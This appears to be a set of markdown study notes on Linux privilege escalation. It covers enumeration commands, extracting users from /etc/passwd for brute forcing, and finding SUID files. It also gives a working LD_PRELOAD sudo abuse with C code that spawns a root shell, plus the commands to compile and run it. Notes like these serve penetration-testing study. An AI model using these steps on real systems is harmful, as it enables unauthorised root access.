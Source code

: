 # Enumeration
## Linux
**Commands:** \
`whoami` - gives the current user \
`hostname` - hostname of target machine \
`uname -a` - prints system information like OS and kernel version, hostname, system time, arch ... \
`ps` - show processes, `-a` or `-e` show all processes, `-axjf` shwo process tree \
`env` - show envirinment variables \
`sudo -l` - show what commands can be run as root with sudo \
`id` -shows user privileges and groups 

**Files** \
`/proc/version` - proc file system (procfs) gives more info about the kernel and istalled tool like compilers \
`/etc/issue` - system file, contains info about the OS \
`/etc/passwd` - shows users and other info, in this context we are only interested in the users \
`cat /etc/passwd | cut -d ":" -f 1` - cuts out only the users in passwd, can be used for brute force attacks

**Network** \
`ifconfig` \
`ip route` \
`netstat` - shows info about existing communications \
>`-a` - shows all listening ports and established conns \
>`-at` / `-au` - lists TCP resp. UDP \
>`-l` - list ports in listening mode \
>`-s` - shows usage statistics by protocol, can be combiled with spesific protocol filters \
>`-p` - shows connections with service name and PID info, can also be combined with specific protocols \
>`-i` - shows interface statistics

**find** \
see [find](https://github.com/leeky-mem/linux-notes/blob/main/commands.md) for basics. For privilege escalation searching for specific permissions is important. \
`-perm mode` - mode can be u,g,o(i.e user,goup,other). In this mode permission bits must match exactly. `-perm o=w` matches only files with mode 0020. \
`-perm -mode` - matches all files wich have mode, but not exclusivly. \  
`find / -perm -u=s -type f 2>/dev/null` - find files with SUID bit set. SUID bit allows to run the file with the privilege level of the owner.

## Automated Enumeration
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - scrip .sh \
[LinEnum](https://github.com/rebootuser/LinEnum) - script .sh \
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester) - script .sh \
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) - script .sh \
[Linux Priv Checker](https://github.com/linted/linuxprivchecker) - script python or .sh

# Sudo
[GTFOBins](https://gtfobins.github.io/) a list of commands and binaries which can be abused to elevate privileges. \
`sudo -l` - show which commands the current user can use with sudo

## Abusing LD_PRELOAD
The `LD_PPRELOAD` environment option can be abused to spawn root shell with programs that can be executed with sudo.

The steps of this privilege escalation vector can be summarized as follows:

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile as a shared library: \
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run a program we can as root: \
`sudo LD_PRELOAD=/path/to/shell.so <sudoable program>`

## SUID / SGID

